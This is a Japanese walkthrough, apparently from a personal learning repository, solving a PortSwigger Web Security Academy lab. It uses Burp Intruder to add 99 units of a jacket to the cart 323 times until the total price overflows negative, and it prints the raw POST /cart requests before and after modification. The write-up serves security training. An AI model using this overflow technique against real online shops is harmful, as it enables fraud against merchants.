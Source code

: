 # 低レベルのロジックの欠陥

攻撃対象は以下のハッキングラボ  
https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level

このハッキングラボは商品毎の注文上限が定義されていません。
そのため、カード内の合計金額をオーバーフローさせることが出来ます。
これを利用して、現金以上の買い物が可能になります。

- 1. Burp Suite を起動します
- 2. Proxy タブからブラウザ起動
- 3. ブラウザから上記ハッキングラボにアクセス
- 4. ハッキングラボにログイン
- 5. 攻撃内容を確認します  
     クレジット以上の買い物をすることが今回の目的です
     ![1](https://github.com/pea-sys/Til/assets/49807271/09721424-0394-4d38-867c-e09bb1ffa328)
- 6. 試しに Lightweight "l33t" Leather Jacket を１つカートに追加して、購入を試みると現金不足で怒られます。
     ![2](https://github.com/pea-sys/Til/assets/49807271/bb626bff-96f7-4aba-bc50-7222e635a062)
- 7. POST /cart リクエストを send to intruder します
     ![3](https://github.com/pea-sys/Til/assets/49807271/4324fa5b-bc1d-4ee3-a677-15828900918e)
- 8. リクエストを以下のように書き換えます  
     [変更前]

```
POST /cart HTTP/2
Host: 0a7d009c038592c4805180bf00a100a2.web-security-academy.net
Cookie: session=03K25Ouox1ft65mp0vJ2L2Zezq7gfhHZ
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a7d009c038592c4805180bf00a100a2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7d009c038592c4805180bf00a100a2.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

productId=1&redir=PRODUCT&quantity=1
```

[変更後]  
※一度に 99 個までしかカートに追加できません

```
POST /cart HTTP/2
Host: 0a7d009c038592c4805180bf00a100a2.web-security-academy.net
Cookie: session=03K25Ouox1ft65mp0vJ2L2Zezq7gfhHZ
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a7d009c038592c4805180bf00a100a2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7d009c038592c4805180bf00a100a2.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

productId=1&redir=PRODUCT&quantity=99§§
```

- 9. Payload タブで Null Payload を選択し 323 回リクエストを送るように設定します
     ![4](https://github.com/pea-sys/Til/assets/49807271/8b00a932-b9e0-4a3b-9488-fb65e85b731f)

- 10. Resource Pool で同時実行リクエストを 1 に設定して、攻撃開始
      ![5](https://github.com/pea-sys/Til/assets/49807271/545229ea-9547-4569-b615-a24f35061dac)

* 11. 攻撃が終わるとカートの合計金額がマイナスになります  
       その後、合計金額プラスになるようにその他商品を適当にカートに入れて買い物します
      ![5](https://github.com/pea-sys/Til/assets/49807271/cc19fc6c-32a7-4f58-bdf0-b429e63ca718)
